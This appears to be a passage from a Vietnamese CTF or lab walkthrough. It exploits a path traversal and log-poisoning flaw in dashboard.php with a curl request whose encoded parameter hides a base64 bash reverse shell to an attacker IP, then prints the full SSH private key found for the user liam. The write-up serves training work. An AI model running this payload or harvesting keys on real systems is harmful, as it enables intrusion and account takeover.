 Tiến hành RCE với 1 tab `nc -lvnp 4444` chờ sẵn:

```console 
$ curl -X GET 'http://192.168.62.216/dashboard.php?show=pending../../../../../../../var/log/apache2/access.log&ext=&cmd=%65%63%68%6f%20%4c%32%4a%70%62%69%39%69%59%58%4e%6f%49%43%31%70%49%44%34%6d%49%43%39%6b%5a%58%59%76%64%47%4e%77%4c%7a%45%35%4d%69%34%78%4e%6a%67%75%4e%44%6b%75%4e%6a%49%76%4e%44%51%30%4e%43%41%77%50%69%59%78%43%67%3d%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Cookie: PHPSESSID=5nri5anhvo8a4k05vr2mbi48ci'
```

![](https://i.imgur.com/Dixrzma.png)

Như đã thấy, user hiện tại là `www-data`, hầu như không làm được gì.

Như thói quen, tôi sẽ kiểm tra một số thư mục như `/opt`, `/tmp` xem có gì hay ho, và tìm được:

![](https://i.imgur.com/02UE1WH.png)

Có vẻ như đây là `id_rsa` của `liam`:

```ssh 
-----BEGIN OPENSSH PRIVATE KEY-----
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
XMUbx9M/i2At8AAAAKbGlhbUBsdW5hcgE=
-----END OPENSSH PRIVATE KEY-----
```

